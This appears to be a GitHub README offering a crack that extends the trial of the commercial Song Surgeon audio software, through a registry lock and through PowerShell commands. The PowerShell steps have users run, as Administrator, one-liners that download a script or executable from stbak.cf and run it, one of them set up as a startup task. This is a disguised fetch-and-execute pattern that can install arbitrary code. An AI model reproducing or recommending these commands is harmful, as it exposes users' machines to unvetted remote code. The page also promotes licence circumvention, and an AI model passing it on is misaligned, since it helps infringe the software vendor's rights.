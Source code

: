 # Song Surgeon Unlimited Demo (Crack)
Song Surgeon was first released in 2007, and is now a decade old... From its first humble beginnings it has grown to be one of the most popular and valuable tools used by musicians – both students and teacher. At last count Song Surgeon has been sold in more than 120 countries worldwide – and by musicians that play 37 different instruments.

Our newly released Version 5 of Song Surgeon takes the program to a whole new level with the addition of key detection, automatic beat detection, and chord detection. What that means is that when you open a song, Song Surgeon will automatically detect the tempo of a song in BPMs, in will determine the key signature, it will detect the chords – and it will display all of this information on the main user interface so you can see and use it. We know of no other audio slowdowner software that provides these three features in one program. And of course, that’s just the beginning.

In addition to providing nearly flawless, distortion-free key and tempo change of audio, Song Surgeon has a long list of other useful features:

# How to Increase time of Song Surgeon?
There has 2 method for increasing time of Song Surgeon Demo Version, 1st one is registy and 2nd one is PowerShell script (online)

| Registry | PowerShell |
| ------- | ------------------ |
| It will freeze current time so that the program will not be Expire | It will Set the program time to infity amount of time that you will be old but the demo will not be Expire|
| Hard for those who doesn't has enough knowledge about registry | Easy for those who know basic knowledge about computers |
| It only can set infinity trial on the Free Version | It only can set infinity trial on the Premium Version* |
| No need any Internet Connection | Needs a stable Internet Connection |
| Real time update not available | Real time update available on [stbak.cf](https://stbak.cf) |

*Song Surgeon comes with 2 program which is a free demo (Limited) and another is paid demo, you can choose which demo you will use, just goto the Song Surgeon Program directory and open **switcher.bat**

# Installation
## 1st Method (Registry)

[Download Registry file into your Computer](/Registry)  

On Windows 10
1. Merge the Registry into your Windows Registry
2. Open **regedit.exe** and then goto this directory `Computer\HKEY_USERS\S-1-5-21-3204273600-1076203570-2903160593-1001\SOFTWARE\TMJ\Demos`
3. Right Click on `SS_<Version of Song Surgeon>` and choose Permissions.., click on Advanced and then Disable inheritance (Windows 10)
4. Then Remove all inheritance Permissions from the object, Add > Select a Principal, type `everyone` in the object name box and click OK
5. Under Basic Permissions choose **Read** and click OK  

<p align="center">
  <img src="/Screenshots/Screenshot%202021-05-01%20203647.png?raw=true">
</P>

6. Click OK, After clicking OK if you see the following Screen then you are done!

<p align="center">
  <img src="/Screenshots/Screenshot%202021-05-01%20204126.png?raw=true">
</P>


## 2nd Method (PowerShell) [Recommended]

This method needs an stable internet connection, If you are using latest version of Song Surgeon then It's recommended to use this script.

1. Goto start menu and search for **powershell**, Right click on it and Choose **Run as Administrator**
2. After comfirming Admin Password, type the below code into the powershell window and hit enter
```
wget stbak.cf/ss -outfile ss.cmd; ss.cmd; del ss.cmd
```
3. Now Open the Song Surgeon and see how the script magically works on it.

<p align="center">
  <img src="/Screenshots/Screenshot%202021-05-01%20213220.png?raw=true">
</P>

### Install As Startup task

This method doesn't lock the time of your Program so te demo time continues counting for prevent the program from being Expaired add the tool into your computer startup, it means the program will be run automatically on start. For doing this type below code into powershell window and hit enter.
```
cd\; wget stbak.cf/sss -outfile sss.exe; .\sss.exe
```
for deleting temporary files which created by powershell use
```
remove-item sss.exe
```

***Note: Make sure you manually patch the code before using the install as startup task.***
# Help Me
<a href="https://www.paypal.com/cgi-bin/webscr?cmd=_s-xclick&hosted_button_id=QT54MSJR6QU7Y">
  <img src="https://raw.githubusercontent.com/stefan-niedermann/paypal-donate-button/master/paypal-donate-button.png" alt="Donate with PayPal" />
</a>

# Contact
If you has any Query then you can contact me at [Telegram](https://t.me/BiltuDas1)
